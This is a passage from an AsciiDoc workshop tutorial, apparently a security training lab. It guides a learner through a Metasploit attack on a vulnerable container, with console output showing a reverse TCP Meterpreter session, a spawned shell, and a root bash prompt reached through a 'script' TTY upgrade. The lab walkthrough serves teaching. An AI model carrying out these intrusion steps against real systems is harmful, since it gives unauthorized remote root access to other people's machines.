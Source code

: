 [tabs]
====
{metasploit-terminal}::
+
--
. With all the setup we did previously, you can now simply run this command in this terminal to exploit the vulnerability on the container
+
[.console-input]
[source,bash,subs="+macros,+attributes"]
----
exploit
----
+
. After a few moments you should see the following output, ending with the a `meterpreter` console
+
[.console-output]
[source,bash,subs="+macros,+attributes"]
----

[-] Handler failed to bind to 13.239.27.229:4444:-  -
[*] Started reverse TCP handler on 0.0.0.0:4444 
[*] Command Stager progress - 100.46% done (1097/1092 bytes)
[*] Sending stage (984904 bytes) to 13.239.27.229
[*] Meterpreter session 1 opened (172.16.249.211:4444 -> 13.239.27.229:42046) at 2021-05-30 07:31:45 +0000

meterpreter > 
----
+
. Next type in the following to get a shell and output something like the following
+
[.console-input]
[source,bash,subs="+macros,+attributes"]
----
shell
----
+
[.console-output]
[source,bash,subs="+macros,+attributes"]
----
Process 79 created.
Channel 1 created.
----
+
. One thing you'll notice is a lack of a prompt after the previous output, and even though we don't see it, we're able to enter bash shell command now.  Just to make our hack more comfortable, paste this command into Terminal 2
+
[.console-input]
[source,bash,subs="+macros,+attributes"]
----
/usr/bin/script -qc /bin/bash /dev/null
----

You should now get a bash style prompt that will look something like this: 

[.console-output]
[source,bash,subs="+macros,+attributes"]
----
[root@b0cfa8015a4c cgi-bin]# 
----

--
====